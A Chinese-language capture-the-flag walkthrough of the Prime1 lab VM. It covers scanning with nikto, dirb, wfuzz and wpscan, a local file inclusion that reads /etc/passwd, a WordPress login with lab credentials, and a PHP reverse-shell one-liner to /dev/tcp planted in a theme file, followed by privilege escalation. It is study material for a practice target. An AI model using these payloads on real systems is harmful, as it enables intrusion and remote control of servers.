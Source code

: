 # 靶场记录Prime1

[TOC]

## 确认目标IP

## nikto扫描

```
┌──(kali㉿kali)-[~/Documents/Prime1]
└─$ sudo nikto -h 192.168.50.130 > nikto.txt
[sudo] password for kali: 
```

![image-20240622020110301](./assets/image-20240622020110301.png)

### 搜集信息

1. 安装了Akismet插件
2. wordpress版本WordPress/5.2.2
3. 上传目录信息泄露，使用的apache版本很旧
4. 登录口

```
http://192.168.50.130/icons/README
http://192.168.50.130/wordpress/wp-content/plugins/akismet/readme.txt
http://192.168.50.130/wordpress/wp-links-opml.php
http://192.168.50.130/wordpress/wp-content/uploads/
http://192.168.50.130/wordpress/wp-login.php
http://192.168.50.130/wordpress/wp-login.php?action=register
```

![image-20240622023005082](./assets/image-20240622023005082.png)

![image-20240622023039342](./assets/image-20240622023039342.png)

![image-20240622023109014](./assets/image-20240622023109014.png)

![image-20240622023202179](./assets/image-20240622023202179.png)

## dirb目录爆破

```
┌──(kali㉿kali)-[~/Documents/Prime1]
└─$ dirb http://192.168.50.130 -o dirb.txt
```

![image-20240622045002071](./assets/image-20240622045002071.png)

### 信息搜集整理

1. 泄露非常规目录http://192.168.50.130/dev

   ![image-20240622045054852](./assets/image-20240622045054852.png)

2. 还泄露了一些常规目录路径，应该放在以后看。

   ![image-20240622045632661](./assets/image-20240622045632661.png)

## dirb文件爆破

```
┌──(kali㉿kali)-[~/Documents/Prime1]
└─$ dirb http://192.168.50.130  -X .zip,.txt -o dirbfile.txt
```

![image-20240622045926904](./assets/image-20240622045926904.png)

![image-20240622050047613](./assets/image-20240622050047613.png)

从提示中直到接下来我们要对php做模糊测试，因此接下来的操作转变为，搜索所有可访问的PHP。

## 搜索php

1. 已知http://192.168.50.130/wordpress/wp-admin/includes/目录下有很多php文件，信息来自于nikto
2. http://192.168.50.130/image.php，信息来自于dirb
3. http://192.168.50.130/index.php，信息来自于dirb



## WFuzz寻找php参数

```
┌──(kali㉿kali)-[~/Documents/Prime1]
└─$ wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hh 136  http://192.168.50.130/index.php?FUZZ=xxxx
```

![image-20240622053517996](./assets/image-20240622053517996.png)

```
┌──(kali㉿kali)-[~/Documents/Prime1]
└─$ wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hh 136  http://192.168.50.130/index.php?FUZZ=xxxx
```

![image-20240622053558980](./assets/image-20240622053558980.png)

### 结合前面提示

![image-20240622050047613](./assets/image-20240622050047613.png)

![image-20240622054757837](./assets/image-20240622054757837.png)

尝试访问，根据提示说明方向正确。

![image-20240622055406212](./assets/image-20240622055406212.png)

## 深入挖掘secrettier360

猜测是本地文件包含，尝试访问，果然不出所料。

http://192.168.50.130/image.php?secrettier360=../../../../../../../../etc/passwd

![image-20240622060717378](./assets/image-20240622060717378.png)

尝试读取shadow失败，说明权限不够。因此改变思路，读取wordpress敏感文件尝试登录后台，利用web后台漏洞。但是在次细心浏览，则会发现

作者给出的提示。

![image-20240622063417582](./assets/image-20240622063417582.png)

![image-20240622064229759](./assets/image-20240622064229759.png)

尝试登录wordpress失败，运气真够衰的。

| account | password          | result |
| ------- | ----------------- | ------ |
| saket   | follow_the_ippsec | 失败   |
| victor  | follow_the_ippsec | 成功   |
| admin   | follow_the_ippsec | 失败   |

![image-20240622065150173](./assets/image-20240622065150173.png)

## WP后台渗透

1. 测试是否能够上传自定义插件，经过测试不行
2. 测试Appearance是否有php文件能够修改

经过尝试在themes中TwentyNineteen中有secret.php能够修改，准备一句话php木马。

```php
<?php exec("/bin/bash -c 'bash -i >&  /dev/tcp/192.168.50.129/443 0>&1'")?>
```



```
192.168.50.130/wordpress/wp-content/themes/twentynineteen/secret.php
```



![image-20240622081415177](./assets/image-20240622081415177.png)

![image-20240622081516989](./assets/image-20240622081516989.png)

## 提升权限

1. msf搜索
2. 本地编译，上传提权失败
3. 远程上传提升权限陈工

![image-20240622084133359](./assets/image-20240622084133359.png)

![image-20240622084159881](./assets/image-20240622084159881.png)

## 获取交互shell

1. dpkg -i 或者python --version发现安装了python2.7
2. `python -c "import pty;pty.spawn('/bin/bash')"`开启一个交互更好的shell
3. ![image-20240622084756698](./assets/image-20240622084756698.png)

## 胜利结算

![image-20240622085739255](./assets/image-20240622085739255.png)

### 总结

### wpscan

在发现是wordpress时就应该想到使用wpscan。比如在从/home/saket/password.txt获得密码以后，由于发现saket无法登录wordpress，除了想我一样反复尝试，还可以使用wordpress获得用户的账户。

```
┌──(kali㉿kali)-[~]
└─$ sudo wpscan --url http://192.168.50.130/wordpress -e u
```

![image-20240622073400875](./assets/image-20240622073400875.png)

